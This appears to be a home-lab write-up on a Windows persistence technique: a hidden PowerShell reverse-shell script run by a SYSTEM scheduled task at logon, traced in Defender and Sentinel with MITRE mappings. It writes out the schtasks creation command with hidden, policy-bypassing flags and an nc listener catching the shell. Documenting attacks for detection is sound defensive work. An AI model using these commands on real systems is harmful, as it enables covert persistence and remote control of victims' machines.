







# 05 — Persistence via Scheduled Task & Reverse Shell

## Scheduled Task Persistence

After gaining RDP access as `MYLAB\Jsmith`, the attacker performed local service enumeration to identify misconfigurations that could potentially be used for privilege escalation.
A PowerShell reverse-shell payload was reconstructed and written to:

```text
C:\ProgramData\update.ps1
```

The Scheduled Task was configured to execute the script at user logon under `NT AUTHORITY\SYSTEM`.

### Payload Creation

The PowerShell payload was reconstructed from multiple string fragments and written to `update.ps1`.

Microsoft Defender recorded the file creation by `powershell.exe`.



### Scheduled Task Creation

PowerShell invoked `schtasks.exe` to create `UpdateTask`:

```powershell
schtasks.exe /create /tn "UpdateTask" /tr "powershell.exe -WindowStyle Hidden -NoP -NonI -Exec Bypass -File C:\ProgramData\update.ps1" /sc onlogon /ru "NT AUTHORITY\SYSTEM" /f
```



### Scheduled Task Configuration

The task was configured to run `update.ps1` at user logon with `SYSTEM` privileges.

The configuration was verified using:

```powershell
schtasks /query /tn "UpdateTask" /v /fo list
```



### Task Execution

The task was manually executed during testing:

```powershell
schtasks /run /tn "UpdateTask"
```

This generated additional Scheduled Task and process telemetry.



### Microsoft Defender for Endpoint

Microsoft Defender EDR recorded the Scheduled Task activity and associated PowerShell execution.



### Microsoft Sentinel

Microsoft Sentinel captured the network activity.

The network telemetry confirmed an outbound connection from the victim to the Kali attacker machine on TCP port `4444`.



### Successful Execution — Reverse Shell

After the user logged on, `UpdateTask` executed `update.ps1` automatically.

The Kali listener was running:

```bash
nc -lvnp 4444
```

The listener received the connection:

```text
192.168.10.132 → 192.168.10.133:4444
```

The resulting PowerShell session was verified as running under:

```text
NT AUTHORITY\SYSTEM
```



### MITRE ATT&CK

* **T1053.005 — Scheduled Task/Job: Scheduled Task**
* **T1059.001 — Command and Scripting Interpreter: PowerShell**
* **T1027 — Obfuscated/Compressed Files and Information**

### Detection Summary

The persistence activity was successfully detected and validated across **Microsoft Defender for Endpoint and Microsoft Sentinel**. The investigation confirmed the creation and execution of `UpdateTask`, execution of the PowerShell payload, and the resulting outbound connection to `192.168.10.133:4444` at logon. The reverse shell was verified as running under `NT AUTHORITY\SYSTEM`.
